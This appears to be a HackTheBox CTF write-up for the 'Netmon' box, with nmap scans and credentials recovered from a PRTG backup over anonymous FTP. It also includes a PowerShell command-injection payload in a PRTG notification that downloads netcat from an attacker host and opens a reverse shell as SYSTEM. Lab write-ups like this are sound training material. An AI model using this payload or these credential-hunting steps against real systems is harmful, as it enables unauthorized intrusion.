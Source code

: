 ```yaml
---
description: Netmon box from HackTheBox write up.
---
```


# Netmon

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -p- --min-rate 1000 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 20:36 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.051s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 43.70 seconds
           Raw packets sent: 65787 (2.895MB) | Rcvd: 65537 (2.622MB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sC -sV <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 20:41 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.051s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-25T00:42:04
|_  start_date: 2021-09-25T00:34:22

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.46 seconds
```

Ok those are a lot of ports, let's start for the promising ones. Even though the FTP server allows anonymous access to the root volume I want to check the web server first.

## Port 80

Looks like a network monitor thing with a login page. The service is called PRTG Network Monitor and the installed version is 18.1.37.13946. I found a RCE exploit for it in `searchsploit` but we need the admin credentials for it. 

Lets use the FTP server to take a look and see if we can get what we need.

## Port 21

After looking around, I found this in the `/ProgramData/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak` file:

```xml
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
 </dbpassword>
```

This credentials didn't worked but since this was an old file... maybe chaning the date... like... `prtgadmin:PrTg@dmin2019`? Well actually worked!

Once we have access as admin to the panel, maybe we can exploit this somehow. After searching a bit, I found something that can lead to a reverse shell.

## Foothold and system

First, we can go to Setup / Account Settings / My Account / Notifications and then add a new alarm. Then, we have to search for the 'Execute Program' option and select the PowerShell notifications demo script.

In the application version used by the machine, this demo script is vulnerable to command injection. In the parameter field we have to put this:

```powershell
test.txt; powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<ATACKER_IP>:8000/nc64.exe','C:\Users\Public\nc64.exe'); C:\Users\Public\nc64.exe -e C:\Windows\System32\cmd.exe <ATACKER_IP> 8080"
```

Now we can save the changes, check this new notification and click the option to send it. After doing that, while having a listener and hosting a web server with a compatible `netcat` binary for the victim machine, we would get a reverse shell!


```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [<ATACKER_IP>] from (UNKNOWN) [<MACHINE_IP>] 50677
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

And we are already `system`! We can get the flag under `C:\Users\Administrator\Desktop\root.txt`
